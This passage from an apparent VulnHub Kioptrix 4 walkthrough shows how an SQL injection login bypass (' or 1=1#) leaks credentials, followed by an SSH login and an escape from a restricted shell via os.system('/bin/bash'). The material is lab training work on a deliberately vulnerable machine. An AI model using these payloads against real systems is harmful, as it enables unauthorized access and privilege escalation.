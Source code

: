 `DirBuster` found 2 pages named `john.php` and `robert.php`. But accessing these pages, redirects us to the login page. So `john` and `robert` must be two users on this web application.

### Sql Injection
The `password` field is prone to `sql` injection as it is throwing errors when we add `'` as input.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix4/sql1.png){: .align-center}
    
Lets try `sql` authentication bypass by using the following payload.

```bash
' or 1=1#
```

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix4/sql2.png){: .align-center}
    
And we are greeted with username and password. So the backend SQL Query must be something like this

```sql
SELECT * FROM users where username='john' and password='1' or '1'='1'
```

## Low Shell

Let's `SSH` into the box using the creds we got.

```bash
kali@kali:~$ ssh john@kioptrix4.com
john@kioptrix4.com's password: 
Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
john:~$ id
*** unknown command: id
john:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
john:~$ lpath
Allowed:
 /home/john
```

On login we are greeted with a restricted shell. This shell essentially limits the commands user can use.

Alright so we can try breaking out from this shell. There are lot of techniques that can be used to [escape restricted shells.](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)

We can break out using the following command.

```bash
john:~$ echo os.system('/bin/bash')
john@Kioptrix4:~$ id
uid=1001(john) gid=1001(john) groups=1001(john)
```
